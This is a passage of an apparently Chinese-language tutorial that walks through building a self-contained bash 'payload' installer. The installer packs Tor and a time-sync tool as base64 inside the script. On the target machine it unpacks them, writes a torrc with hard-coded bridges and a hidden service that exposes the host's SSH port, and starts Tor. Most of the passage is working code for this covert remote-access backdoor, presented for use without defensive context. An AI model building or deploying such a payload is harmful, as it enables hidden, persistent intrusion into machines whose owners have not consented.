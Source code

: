 创建自动化安装文件

让我们用bash脚本创建一个很酷的安装文件。

先把Tor二进制文件和修改后的torrc文件复制到新目录:



```
mkdir ~/payload
cp tor torrc ~/payload
cd ~/payload
```

还有一个重要的组件要添加到安装文件当中。因为Tor的运行要求系统有一个准确的时间。一个方法是,从一些知名网站使用的HTTP头解决。当你发送一个HTTP请求到Web服务器时,一些Web服务器会在它的响应中添加上当前时间。我们可以把系统时间调整到这个时间(需要root权限)。这一切都可以通过下面的perl脚本搞定:

```
wget http://www.rkeene.org/devel/htp/mirror/archive/perl/htp-0.9.3.tar.gz
tar xzvf htp-0.9.3.tar.gz
cp htp-0.9.3/sbin/htpdate-light .
```

现在运行sudo ./htpdate-light跟Google HTTP服务器进行时间同步。

接着对文件进行压缩以减少安装文件的体积:



```
tar cvzf binaries.tar.gz tor htpdate-light
```

现在我们创建一个安装脚本。在”payload.sh“脚本上把tar文件的base64编码保存到”torbin“变量。

```
echo '#!/bin/sh' &gt; payload.sh
echo -n 'torbin=' &gt;&gt; payload.sh
cat binaries.tar.gz | base64 -w 0 &gt;&gt; payload.sh
```

然后用你喜欢的编辑器打开payload.sh,把下面的指令追加进去:



```
echo $torbin | base64 -d &gt; binaries.tar.gz
tar xzvf binaries.tar.gz
rm binaries.tar.gz
chmod +x tor
echo '
Bridge 176.182.30.145:443 DE54B6962AB7ECBB88E8BC58BEA94B6573267515
Bridge 37.59.47.27:8001 E0671CF9CB593F27CD389CD4DD819BF9448EA834
Bridge 192.36.27.122:55626 35E199EFB98CDC9D3D519EA4F765C021A216F589
UseBridges 1
SocksPort 9050
SocksListenAddress 127.0.0.1
HiddenServiceDir ./.hs/
HiddenServicePort 2222 127.0.0.1:22
' &gt; ./torrc
perl ./htpdate-light google.com
./tor -f ./torrc
```
